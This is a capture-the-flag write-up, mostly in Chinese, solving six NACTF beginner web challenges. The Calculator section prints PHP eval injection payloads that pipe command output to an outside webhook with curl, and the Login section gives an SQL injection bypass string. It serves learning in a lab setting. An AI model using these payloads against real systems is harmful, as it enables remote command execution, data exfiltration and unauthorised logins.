 # NACTF write up (only web)

### Inspect
> 50
> Lola's new to website-building. Having just learned HTML and CSS, she built this site and embedded some dark secrets. I wonder where I could find them.
> http:/inspect.challenges.nactf.com/
* 直接用開發人員工具的 search，搜尋 `nactf{` 就可以了
* flag : `nactf{1nspect1ng_sp13s_4_lyf3}`

### Missing Image
> 75
> Max has been trying to add a picture to his first website. He uploaded the image to the server, but unfortunately, the image doesn't seem to be loading. I think he might be looking in the wrong subdomain...
> https://hidden.challenges.nactf.com/
* 有點通靈（？
* 直接到 https://hidden.challenges.nactf.com/flag.png 訪問就可以了
* flag : `nactf{h1dd3n_1mag3s}`

### Forms
> 125
> Skywalker has created 1000 login forms and only managed to make one of them work. Find the right one and login! He also went a bit crazy with the colors for some reason.
> https://forms.challenges.nactf.com/
* 直接看到最下面的 js
    ```js=
    function verify() {
        user = document.getElementById("username").value;
        pass = document.getElementById("password").value;
        if (user === "admin" && pass === "password123") {
            document.getElementById("submit").value = "correct_login";
        } else {
            document.getElementById("submit").value = "false";
        }
        document.form.submit();
    }
    ```
* 把 username 輸入 `admin`，password 輸入 `password123` ，把 submit 的 value 改成 `correct_login` 就可以拿到 flag 了
* flag : `nactf{cl13n75_ar3_3v11}`

### Calculator
> 150 
> Kevin has created a cool calculator that can perform almost any mathematical operation! It seems that he might have done this the lazy way though... He's also hidden a flag variable somewhere in the code.
> https://calculator.challenges.nactf.com/
> hint : What's the easiest way to evaluate user input?
* hint 要說的其實就是他的後端用的是 eval 來執行
* [eval](https://www.php.net/manual/en/function.eval.php)
* 可以知道 eval 是執行 php code 
* 所以可以嘗試一下 `system("ls")`，得到的回應是 index.php
* 直接 `cat index.php` 可以發現拿不到 source code 
* 所以嘗試用 base64 encode 過後拿到 value `cat index.php | base64` 可以發現拿不到所有的 value
* 這時候可以用 [webhook](https://webhook.site/) 來解決，並且加上 curl 指令
* `system('curl your_webhook -d "$(ls)"')` 可以在 webhook 的回應中看到 index.php
* 這時候 `system('curl your_webhook -d "$(cat index.php)"')` 可以看到關鍵的 flag
* `-d` 是指 form data 的意思
* `$(command)` https://unix.stackexchange.com/questions/147420/what-is-in-a-command
* 不過這一題理論上應該沒有要考那麼難拉，因為他有說 He's also hidden a flag variable somewhere in the code. 所以猜到他的 flag variable 就可以了（好像也挺難的！？
* 所以輸入 `$flag` 也會有答案拉
* flag : `nactf{ev1l_eval}`

### Cookie Recipe
> 150
> Arjun owns a cookie shop serving warm, delicious, oven-baked cookies. He sent me his ages-old family recipe dating back four generations through this link, but, for some reason, I can't get the recipe. Only cookie lovers are allowed!
> https://cookies.challenges.nactf.com/index.php
> hint : Arjun baked a cookie as an offering, but he accidently placed it on the front page.
* 這一題單純的改 cookie 而已，可以看到有一個 cookie 叫做 user，value 是 cookie_lover
* submit 之後跟你說你不是 cookie_lover
* 這時候看一下 cookie 的 path，是在 /index.php
* 把它改成 /auth.php 就可以了
* flag : `nactf{c00kie_m0nst3r_5bxr16o0z}`

### Login
> 175
> Vyom has learned his lesson about client side authentication and his soggy croutons will now be protected. There's no way you can log in to this secure portal!
> https://login.challenges.nactf.com/
> hint : https://xkcd.com/327/
* 沒什麼好說的，阿就 sql injection
* username : `'or 1=1 -- `，password : ` `
* flag : `nactf{sQllllllll_1m5qpr8x}`

### 總結
* 總的來說是挺適合新手入門的 ctf，有些題目出得滿好的，下次可以花時間打一下，畢竟接近期中考了，所以沒什麼時間打這東東，名次有點低，可惜了Ｑ
